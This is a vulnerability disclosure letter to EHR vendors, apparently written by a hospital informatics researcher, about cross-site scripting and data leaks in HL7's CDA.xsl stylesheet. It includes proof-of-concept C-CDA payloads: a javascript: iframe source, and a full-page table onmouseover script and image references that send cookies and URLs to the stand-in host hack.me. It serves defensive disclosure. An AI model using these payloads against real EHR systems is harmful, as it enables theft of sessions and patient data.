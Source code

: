 ### Dear EHR Vendor,

I'm a medidcal informatics research at Boston Children's Hospital, and I'm
writing to share some security considerations pertinent to any EHR that
displays Consolidated CDA documents for Meaningful Use (especially in a Web
browser environment). I would appreciate if you could ensure that the message
below reaches someone on your security team.

Best,

  Josh Mandel, MD
  Lead Architect, SMART Platforms
  Harvard Medical School / Boston Children's Hospital

---

### Dear Security Team,

I'm writing to report a *potential* security vulnerability in your display of
Consolidated CDA documents. To be clear, I haven't confirmed whether your EHR
products are vulnerable to the issues below, but I have found that they do
affect *some EHR systems*, and I wanted to share this report with Web-based EHR
vendors privately before I describe it in public on the [SMART Platforms
blog](http://smartplatforms.org).

Effectively, the concern has to do with the use of XSLT "stylesheets" to
display externally-supplied C-CDA documents in the EHR. The ready-to-go
stylesheets provided by HL7 (which I've seen broadly adopted by many EHR
vendors) were not designed with security in mind -- which can open EHRs up to
attacks by maliciously-composed documents.

The "TL;DR" version is: If you're using XSLT stylesheets to render C-CDAs in
your EHR, make sure you understand the security implications. Otherwise you
could be vulnerable to a data breach.

I would appreciate if you could reply to me so I can track the dissemination of
this notice. My plan is to write a public blog post that would be published on
3/21/2014. If you discover that your system is vulnerable and you need more
time to repair it, please let me know that, and I can delay publication.

Best,

  Josh Mandel, MD
  Lead Architect, SMART Platforms
  Harvard Medical School / Boston Children's Hospital



### Three fundamental attacks

Many vendors appear to be using (slightly modified) versions of the
[CDA.xsl](https://github.com/chb/sample_ccdas/blob/master/CDA.xsl) that comes
with HL7's C-CDA release. This provides potential attackers with a highly
visible, leveragable target.

Based on my analysis of the XSLT, there are at least three ways to craft a
malacious C-CDA. I'll discuss both in detail:

1. Use unsanitized `table/@onmouseover` to execute JavaScript code anytime the C-CDA is viewd

2. Use unsanitized `iframe/@src` to execute JavaScript code anytime the C-CDA is viewed

3. Use `img/@src` references that leak application state in an HTTP `Referer` header

#### Via `iframe` in nonXMLBody
One opportunity for injection attacks is the default handling of a `nonXMLBody` CDA. 

```
<xsl:template match='n1:component/n1:nonXMLBody'>
  <xsl:choose>
  <!-- if there is a reference, use that in an IFRAME -->
  <xsl:when test='n1:text/n1:reference'>
  <IFRAME name='nonXMLBody' id='nonXMLBody' WIDTH='80%' HEIGHT='600' src='{n1:text/n1:reference/@value}' />
</xsl:when>
```

This means we can get javascript to execute if we can supply it in a reference like:

```
<nonXMLBody>
  <text>
    <reference value="javascript:alert(window.parent.location);"/>
  </text>
</nonXMLBody>
```

The resulting HTML rendering would include the following dangerous snippet:

```
  <iframe src="javascript:alert(window.parent.location);"></iframe>
```

#### Via `table` attributes

A valid C-CDA document is not allowed to provide `table/@onmouseover`
attributes. But if invalid documents are allowed into a system, then the
following permissive "copy all" can be dangerous:

```
<!-- Tables -->
<xsl:template
  match="n1:table/@*|n1:thead/@*|n1:tfoot/@*|n1:tbody/@*|n1:colgroup/@*|n1:col/@*|n1:tr/@*|n1:th/@*|n1:td/@*">
  <xsl:copy>
    <xsl:copy-of select="@*" />
    <xsl:apply-templates />
  </xsl:copy>
```

What this says is: "when you find a `table` in the C-CDA document, just copy
all of its XML attributes right into the rendered document. An attacker can use
this to inject JavaScript in the resulting document. For example, an attacker
could steal cookies and pass them back to an external server with: something
like:

```
<table onmouseover="
  var i=document.createElement('img');
  i.style.display='none';
  i.src='https://hack.me/from/'+
        encodeURIComponent(document.URL)+
        '/cookie/'+
        encodeURIComponent(document.cookie);
  document.body.appendChild(i);"></table>
```

The resulting HTML would contain the source `table` element verbatim.

As written, this would only work if the user moves the mouse over what could be
a small, isolated table in the C-CDA document. But providing a `table/@style`
can increase the attack surface to encompass the entire page:

```
<table style="height: 100%;
              z-index: 10;
              width: 100%;
              position: fixed;
              left: 0px;
              top: 0px;" 
       onmouseover="[as before]" style=""></table>
```

Now the infected table covers the entire document area, so moving the mouse
anywhere within the document will cause our code to run. 

#### Leaking application state through externally loaded images

Searching CDA.xsl for the term `img`, reveals two places where image tags are
emitted.  Both occur within the `renderMultiMedia` template definition:

```
<xsl:template match="n1:renderMultiMedia">
  <xsl:variable name="imageRef" select="@referencedObject" />
      <!-- snipped for brevity -->
      <xsl:if
        test="//n1:observationMedia[@ID=$imageRef]/n1:value[@mediaType='image/gif' or @mediaType='image/jpeg']">
        <br clear="all" />
        <xsl:element name="img">
          <xsl:attribute name="src"><xsl:value-of
              select="//n1:observationMedia[@ID=$imageRef]/n1:value/n1:reference/@value" /></xsl:attribute>
        </xsl:element>
      </xsl:if>
      <!-- snipped for brevity -->
</xsl:template>
```

By constructing an appropriate `section` in a C-CDA document to act as input to
the template above, an attacker can cause the browser to leak the current page
URL to `https://hack.me`:

```
<text>
  This image loads from an external server...
  <renderMultiMedia referencedObject="MM1"></renderMultiMedia>
</text>
<entry>
  <observationMedia ID="MM1">
    <id root="10.23.4567.345"/>
    <value xsi:type="ED" mediaType="image/jpeg">
      <reference value="https://hack.me/leaked-from-image.png"/>
    </value>
  </observationMedia>
</entry>
```

The resulting HTML would include the potentially dangerous snippet:

```
<img src="https://hack.me/leaked-from-image.png"></img>
```
